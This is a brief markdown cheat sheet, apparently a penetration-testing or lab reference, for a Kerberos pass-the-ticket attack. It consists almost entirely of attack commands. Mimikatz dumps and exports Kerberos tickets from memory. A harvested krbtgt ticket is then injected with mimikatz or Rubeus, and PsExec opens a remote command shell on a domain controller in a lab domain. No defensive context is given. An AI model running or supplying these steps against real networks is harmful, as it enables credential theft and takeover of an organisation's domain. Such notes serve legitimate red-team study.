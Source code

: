 
# Harverst tickets
```bash
privilege::debug
sekurlsa::tickets /export
```
-----------------------

# User harvested tickets
```bash
#Load the ticket in memory using mimikatz or Rubeus
mimikatz.exe "kerberos::ptt [0;28419fe]-2-1-40e00000-trex@krbtgt-JURASSIC.PARK.kirbi"
.\Rubeus.exe ptt /ticket:[0;28419fe]-2-1-40e00000-trex@krbtgt-JURASSIC.PARK.kirbi

klist #List tickets in cache to cehck that mimikatz has loaded the ticket
.\PsExec.exe -accepteula \\lab-wdc01.jurassic.park cmd
```

